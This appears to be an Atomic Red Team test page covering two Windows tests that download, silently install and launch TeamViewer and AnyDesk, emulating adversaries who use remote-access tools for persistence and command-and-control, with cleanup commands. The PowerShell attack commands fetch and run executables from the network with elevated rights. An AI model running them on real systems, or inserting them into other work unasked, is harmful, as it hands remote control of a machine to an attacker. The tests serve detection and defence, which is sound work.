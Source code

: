 ## Atomic Test #1 - TeamViewer Files Detected Test on Windows

An adversary may attempt to trick the user into downloading teamviewer and using this to maintain access to the machine. Download of TeamViewer installer will be at the destination location when sucessfully executed.

**Supported Platforms:** Windows

**auto_generated_guid:** 8ca3b96d-8983-4a7f-b125-fc98cc0a2aa0

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\TeamViewer_Setup.exe https://download.teamviewer.com/download/TeamViewer_Setup.exe
$file1 = "C:\Users\" + $env:username + "\Desktop\TeamViewer_Setup.exe"
Start-Process -Wait $file1 /S;
Start-Process 'C:\Program Files (x86)\TeamViewer\TeamViewer.exe'
```

#### Cleanup Commands:

```powershell
$file = 'C:\Program Files (x86)\TeamViewer\uninstall.exe'
if(Test-Path $file){ Start-Process $file "/S" -ErrorAction Ignore | Out-Null }
$file1 = "C:\Users\" + $env:username + "\Desktop\TeamViewer_Setup.exe"
Remove-Item $file1 -ErrorAction Ignore | Out-Null
```

<br/>
<br/>

## Atomic Test #2 - AnyDesk Files Detected Test on Windows

An adversary may attempt to trick the user into downloading AnyDesk and use to establish C2. Download of AnyDesk installer will be at the destination location and ran when sucessfully executed.

**Supported Platforms:** Windows

**auto_generated_guid:** 6b8b7391-5c0a-4f8c-baee-78d8ce0ce330

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\AnyDesk.exe https://download.anydesk.com/AnyDesk.exe
$file1 = "C:\Users\" + $env:username + "\Desktop\AnyDesk.exe"
Start-Process $file1 /S;
```

#### Cleanup Commands:

```powershell
$file1 = "C:\Users\" + $env:username + "\Desktop\AnyDesk.exe"
Remove-Item $file1 -ErrorAction Ignore
```
